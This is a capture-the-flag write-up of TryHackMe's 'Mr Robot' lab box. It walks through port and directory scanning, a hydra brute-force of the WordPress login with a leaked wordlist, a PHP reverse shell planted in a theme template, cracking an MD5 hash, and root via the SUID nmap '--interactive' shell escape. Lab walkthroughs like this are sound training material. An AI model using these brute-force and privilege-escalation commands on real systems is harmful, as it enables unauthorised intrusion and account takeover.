 ```yaml
---
title: "Mr Robot CTF"
date: 2025-03-06
image: /assets/img/tryhackme/Mrrobot/mrrobot_image.jpg
description: Writeup of the TryHackMe-CTF Mr Robot CTF
categories: [TryHackMe, Medium]
tags: [linux, wordpress, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Mr Robot CTF</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Based on the Mr. Robot show, can you root this box?</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Medium</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/mrrobot">https://tryhackme.com/room/mrrobot</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Mr Robot CTF.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.233.174      
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-06 13:16 EST
  Nmap scan report for 10.10.233.174
  Host is up (0.036s latency).
  Not shown: 65532 filtered tcp ports (no-response)
  PORT    STATE  SERVICE
  22/tcp  closed ssh
  80/tcp  open   http
  443/tcp open   https

  Nmap done: 1 IP address (1 host up) scanned in 109.20 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,443 10.10.233.174
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-06 13:18 EST
  Nmap scan report for 10.10.233.174
  Host is up (0.11s latency).

  PORT    STATE  SERVICE  VERSION
  22/tcp  closed ssh
  80/tcp  open   http     Apache httpd
  |_http-server-header: Apache
  |_http-title: Site doesn't have a title (text/html).
  443/tcp open   ssl/http Apache httpd
  |_http-server-header: Apache
  | ssl-cert: Subject: commonName=www.example.com
  | Not valid before: 2015-09-16T10:45:03
  |_Not valid after:  2025-09-13T10:45:03
  |_http-title: Site doesn't have a title (text/html).

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 18.09 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

The website displayed an awesome Mr. Robot-themed boot progress and command interface:

![MR Robot theme](/assets/img/tryhackme/Mrrobot/thm_mrrobot_1.jpg)

After interacting with it for a bit, I didn't find anything interesting and moved on to directory enumeration:

```bash
$ gobuster dir --url http://10.10.233.174/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php
  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.233.174/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Extensions:              html,txt,php
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /.html                (Status: 403) [Size: 214]
  /index.html           (Status: 200) [Size: 1188]
  /images               (Status: 301) [Size: 236] [--> http://10.10.233.174/images/]
  /index.php            (Status: 301) [Size: 0] [--> http://10.10.233.174/]
  /blog                 (Status: 301) [Size: 234] [--> http://10.10.233.174/blog/]
  /rss                  (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/]
  /sitemap              (Status: 200) [Size: 0]
  /login                (Status: 302) [Size: 0] [--> http://10.10.233.174/wp-login.php]
  /0                    (Status: 301) [Size: 0] [--> http://10.10.233.174/0/]
  /feed                 (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/]
  /video                (Status: 301) [Size: 235] [--> http://10.10.233.174/video/]
  /image                (Status: 301) [Size: 0] [--> http://10.10.233.174/image/]
  /atom                 (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/atom/]
  /wp-content           (Status: 301) [Size: 240] [--> http://10.10.233.174/wp-content/]
  /admin                (Status: 301) [Size: 235] [--> http://10.10.233.174/admin/]
  /audio                (Status: 301) [Size: 235] [--> http://10.10.233.174/audio/]
  /intro                (Status: 200) [Size: 516314]
  /wp-login             (Status: 200) [Size: 2613]
  /wp-login.php         (Status: 200) [Size: 2613]
  /css                  (Status: 301) [Size: 233] [--> http://10.10.233.174/css/]
  /rss2                 (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/]
  /license              (Status: 200) [Size: 309]
  /license.txt          (Status: 200) [Size: 309]
  /wp-includes          (Status: 301) [Size: 241] [--> http://10.10.233.174/wp-includes/]
  /readme               (Status: 200) [Size: 64]
  /readme.html          (Status: 200) [Size: 64]
  /js                   (Status: 301) [Size: 232] [--> http://10.10.233.174/js/]
  /wp-register.php      (Status: 301) [Size: 0] [--> http://10.10.233.174/wp-login.php?action=register]
  /wp-rss2.php          (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/]
  /rdf                  (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/rdf/]
  /page1                (Status: 301) [Size: 0] [--> http://10.10.233.174/]
  /robots               (Status: 200) [Size: 41]
  /robots.txt           (Status: 200) [Size: 41]
```

While `gobuster` was running, I manually searched for common files and found two entries in `robots.txt`, which I downloaded: 
```bash
User-agent: *
fsocity.dic
key-1-of-3.txt
```

The first flag inside `key-1-of-3.txt` and the `fsocity.dic` seemed to be a wordlist that might be useful later:
```bash
$ cat key-1-of-3.txt
	[removed]
$ wc -l fsocity.dic                                  
	858160 fsocity.dic
```

Since the `gobuster` scan was completed, I started checking the directories one by one. Nothing useful - except for a WordPress instance. I used `wpscan` to check for version numbers, plugins or vulnerabilities, but nothing useful came up. Keeping the wordlist in mind, I attempted a brute-force login. Finding a valid username was easy: I simply searched for `mr robot character name list`, tried a few, and got a hit:

![WordPress login](/assets/img/tryhackme/Mrrobot/thm_mrrobot_2.jpg)

Because the wordlist was quite large, I used `hydra`, since it allows a higher number of parallel connections compared to `wpscan`. However, the estimated time was over five hours, so I canceled the process after five minutes. Assuming the password was somewhere in the wordlist, I reversed it using `tac` and tried again:  
```bash
$ cat fsocity.dic | tac > reverse_fsocity.dic
$ hydra -l 'elliot' -P reverse_fsocity.dic 10.10.211.229 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered"
	[80][http-post-form] host: 10.10.211.229   login: elliot   password: [removed]
```

Great! I was able to log in. From here, I injected a PHP reverse shell into the `404` template.

![404 Template](/assets/img/tryhackme/Mrrobot/thm_mrrobot_3.jpg)

After setting up a listener, I triggered the shell by visiting a non-existent page:
```bash
$ whoami
	daemon
$ cat key-2-of-3.txt 
	cat: key-2-of-3.txt: Permission denied
```

## Privilege Escalation robot

Since I had initial access I performed some stabilization and started to explore the machine. I found a file with an interesting extension:
```bash
daemon@linux:/home/robot$ cat password.raw-md5 
	robot:[removed]
```

A quick lookup on Crackstation revealed the plaintext password for `robot`. Using it, I retrieved the second flag:

![Crackstation](/assets/img/tryhackme/Mrrobot/thm_mrrobot_4.jpg)

```bash
daemon@linux:/home/robot$ su robot
Password: 
robot@linux:~$ cat key-2-of-3.txt 
	[removed]
```

## Privilege Escalation root

I started by checking `sudo -l`, but I had no permission. Next, I checked the sudo version, tried an exploit, but had no success. Checking for binaries with the SUID set, I found something interesting:
```bash
robot@linux:/var/tmp$ find / -perm /4000 -type f 2>/dev/null
[...]
	/usr/local/bin/nmap
[...]
```

A quick search on <a href="https://gtfobins.github.io/gtfobins/nmap/">GTFOBins</a> provided me everthing I needed:
```bash
robot@linux:/var/tmp$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# cd /root
# ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
	[removed]
```

solved! :)

